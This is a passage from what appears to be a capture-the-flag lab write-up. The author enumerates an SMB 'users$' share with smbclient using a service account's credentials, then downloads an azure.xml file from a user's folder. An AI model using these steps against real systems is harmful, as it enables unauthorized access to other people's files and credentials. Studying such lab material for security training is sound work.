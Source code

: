 ```bash
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I decided to check `users$` share first and I recursively list  them all.

```bash
root@w0lf:~# smbclient //10.10.10.172/users$/ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 18:42:48 2020
  ..                                  D        0  Fri Jan  3 18:42:48 2020
  dgalanos                            D        0  Fri Jan  3 18:42:30 2020
  mhope                               D        0  Fri Jan  3 19:11:18 2020
  roleary                             D        0  Fri Jan  3 18:40:30 2020
  smorgan                             D        0  Fri Jan  3 18:40:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> recurse on
smb: \> ls
  .                                   D        0  Fri Jan  3 18:42:48 2020
  ..                                  D        0  Fri Jan  3 18:42:48 2020
  dgalanos                            D        0  Fri Jan  3 18:42:30 2020
  mhope                               D        0  Fri Jan  3 19:11:18 2020
  roleary                             D        0  Fri Jan  3 18:40:30 2020
  smorgan                             D        0  Fri Jan  3 18:40:24 2020

\dgalanos
  .                                   D        0  Fri Jan  3 18:42:30 2020
  ..                                  D        0  Fri Jan  3 18:42:30 2020

\mhope
  .                                   D        0  Fri Jan  3 19:11:18 2020
  ..                                  D        0  Fri Jan  3 19:11:18 2020
  azure.xml                          AR     1212  Fri Jan  3 19:10:23 2020

\roleary
  .                                   D        0  Fri Jan  3 18:40:30 2020
  ..                                  D        0  Fri Jan  3 18:40:30 2020

\smorgan
  .                                   D        0  Fri Jan  3 18:40:24 2020
  ..                                  D        0  Fri Jan  3 18:40:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> cd mhope
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```
